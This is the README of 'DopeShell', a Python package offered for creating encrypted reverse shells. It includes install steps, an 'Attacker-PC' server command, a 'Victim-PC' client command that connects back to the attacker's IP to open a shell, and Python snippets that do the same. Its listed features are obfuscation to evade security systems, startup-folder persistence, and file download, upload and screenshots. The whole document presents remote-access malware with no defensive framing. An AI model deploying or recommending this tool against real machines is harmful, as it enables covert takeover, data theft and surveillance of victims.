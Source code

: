 # **DopeShell**
![Static Badge](https://img.shields.io/badge/Python-3.12.5-orange)
![Static Badge](https://img.shields.io/badge/License-MIT-white)
![Static Badge](https://img.shields.io/badge/PyPi-2.0.1-green)

## **Introduction**

**DopeShell** is a Python library designed to simplify the creation of secure reverse shells with advanced features like session management, encryption, multiple connections, and obfuscation techniques. This library provides an easy-to-use interface for setting up both the client and server sides of a reverse shell, with the ability to manage multiple sessions, simulate command-line prompts, and more.

## **Features**

- **Encrypted Communication**: Utilizes AES encryption to secure data transmitted between the client and server.
- **Session Management**: Handles multiple active sessions and allows the server operator to switch between them.
- **Command Prompt Simulation**: The reverse shell simulates the target's command-line interface, making it appear as if the commands are being executed locally.
- **Obfuscation Techniques**: Implements basic obfuscation to avoid detection by security systems.
- **Customizable**: Easily configure host, port, and encryption key via command-line arguments.
- **Persistence**: Easily set up persistence by saving a batch file in the startup folder to ensure reconnection on boot
- **Useful commands**: Provides useful commands like download, upload, screenshot to enhance interactivity of the shell

## **Directory Structure**

The project is organized as follows:
- **setup.py**: Contains the package configuration for installation.
- **README.md**: This documentation file.
- **LICENSE**: The project's license file.
- **dopeshell/**: The main package directory containing the server and client scripts.

## **Installation**

### **Prerequisites**

- **Python 3.7+**
- **pip** (Python package manager)

### **Installing DopeShell**

You can install `DopeShell` using `pip`:

```bash
pip install DopeShell
```

### **Building DopeShell**
If you want to build it yourself, you can use the following commands:
```
1. git clone https://www.github.com/anonymous300502/DopeShellPyPi
2. python setup.py sdist bdist_wheel
3. pip install dist/DopeShell-1.1.1-py3-none-any.whl (Replace the .whl file with the file in your dist directory)
```


## **Usage Instructions:**
#### **On the Attacker-PC, Run the following commands:**
```bash
dopeshell-server --host 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- Dopeshell uses "myverystrongpasswordo32bitlength" as the default key so you can skip the --key argument if you wish to use the default key, but we recommend using your own custom key which should be **32 bits** long.
- If you omit the --host and --port arguments, It uses '0.0.0.0' as the default IP address and '4444' as the default port.

#### **On the Victim-PC, Run the following commands:**
```bash
dopeshell-client --server-ip 192.168.1.11 --port 4444 --key "myverystrongpasswordo32bitlength"
```
*Note:*<br>
- The server ip and port arguments are **required** here, If a custom key was used in the server it should be mentioned using the --key argument. If a custom key is not used in the server side startup command, It will use the default key automatically.

### **Usage commands:**
- switch NUMBER [To switch between available sessions]
- exit [To exit the session] <br><br><br>
- persist [Set up persistence to enusre connection on reboot]<br><br><br>

*Image1- initializaiton*
![Runing server](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/running.png)
*Image2- Running commands*
![basic_usage_1](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/basic_usage_1.png)<br><br><br>
*Image3- Switching between sessions* <br>
![basic_usage_2](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/improved_exit_and_switch.png)<br><br><br>
*Image4- Setting up persistence* <br>
![presist](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/persistence.png)<br><br><br>
*Image5- In-Shell commands* <br>
![commands](https://raw.githubusercontent.com/manaswii/DopeShellPyPi/main/screenshots/commands.png)

### **Here are sample snippets if you wish to use the library in your own code:**
- test_server.py
```python
from DopeShell import DopeShellServer

key = b'myverystrongpasswordo32bitlength'

server = DopeShellServer('0.0.0.0', 4444, key)
server.run()
```
- test_client.py
```python
from DopeShell import DopeShellclient

key = b'myverystrongpasswordo32bitlength'

server = DopeShellclient('192.168.1.11', 4444, key)
server.run()

```

### **Contributing**
- Contributions are welcome! To contribute:
- Fork the repository.
- Create a new branch for your feature/bugfix.
- Write tests for your changes.
- Submit a pull request.
- Please ensure your code adheres to the project's coding standards.


### **License**
This project is licensed under the MIT License. See the LICENSE file for details.

### **Contributors:**<br>
[Manaswi Sharma](https://www.github.com/manaswii)

### **Contact Information**
For issues, questions, or suggestions, please contact:

Email: 170mailmea@gmail.com<br>
GitHub: https://github.com/anonymous300502
